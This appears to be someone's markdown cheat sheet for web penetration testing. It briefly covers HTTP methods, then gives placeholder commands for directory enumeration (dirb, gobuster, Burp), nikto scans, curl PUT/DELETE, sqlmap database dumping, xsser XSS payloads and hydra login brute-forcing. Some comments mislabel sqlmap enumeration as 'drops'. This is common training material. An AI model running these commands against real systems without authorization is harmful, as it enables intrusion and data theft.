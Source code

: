 ## Intro To Web 
+ HTML,CSS,Javascript 
+ Fetch files using web servers or using other services such as Word PRess Azure 

### Requests 
+ Methods to retrieve data 
+ GET,Head,Post,Put,Delete,Connect,Options, Trace, Push 
+ Get back are response such as 200,302,404
+ Session are code along side request for tracking login 

### HTTPS
+ TLS,SSl encrypted data over the internet

## dirb Commnad
```
dirb url 
```
## curl commands 
```
curl -X COMMAND IP_OR_URL -v
curl -I IP_OR_URL
curl -XPUT IP_OR_URL
curl IP_URL --upload-file hello.txt  # if put allowed
curl -XDELETE IP_OR_URL
```

## gobuster 
```
gobuster dir -u URL -w /usr/share/wordlists/dirb/common.txt
gobuster dir -u URL -w /usr/share/wordlists/dirb/common.txt -b 403,404
gobuster dir -u URL -w /usr/share/wordlists/dirb/common.txt -b 403,404 -x .php,.xml,.txt -r


```

## Nikto 
```
nikto -h url

nikto -h ur; -Tuning 5 -Display V 

nikto -h ur; -Tuning 5 -Display V  -o outputformat -F format


```
## Burp Suite Directory Enumeration
```
send to intruder
clear
add name to GET
set to sniper
then go to payload
load wordlist

```
## Burp Suite Crawling

```
click on live crawling from Proxy on Dashboard
```

## SQLMAP
```
GET
sqlmap -u "URL" --cookie "cookie_value" -p which_var_to_target

sqlmap -u "URL" --cookie "cookie_value" -p which_var_to_target --dbs #drops database

sqlmap -u "URL" --cookie "cookie_value" -p which_var_to_target -D database_name --tables #drops tables


sqlmap -u "URL" --cookie "cookie_value" -p which_var_to_target -D database_name -T table_name --columns #drops columns

sqlmap -u "URL" --cookie "cookie_value" -p which_var_to_target -D database_name -T table_name -C columnname,columnname --dump #drops all the info from columns

POST
copy request to file

sqlmap -r file -p request_variable

```

## Xsser 
```
xsser --url url -p payload #in payload include XSS on payload field
xsser --url url -p payload --auto
xsser --url url -p payload --Fp custom_payload #in payload include XSS on payload field
 xsser --url “URL” --cookie=”COOKIE” --Fp “<script>alert(1)</script>”
```

## Hydra Login 
```
hydra -L users.txt -P passwords.txt IP_URL http-post-form "/file.php:PARAMETERS:Invalid Creds!" 
```

## Burp Suite Basic Auth 
```
caputre login request
send it to intruder
clear
high kight login info
load password
add prefix o suffix
encode base64
start attack 
```
ZAP HTTP Login Form
```
right click
fuzz highlight text
add list

```








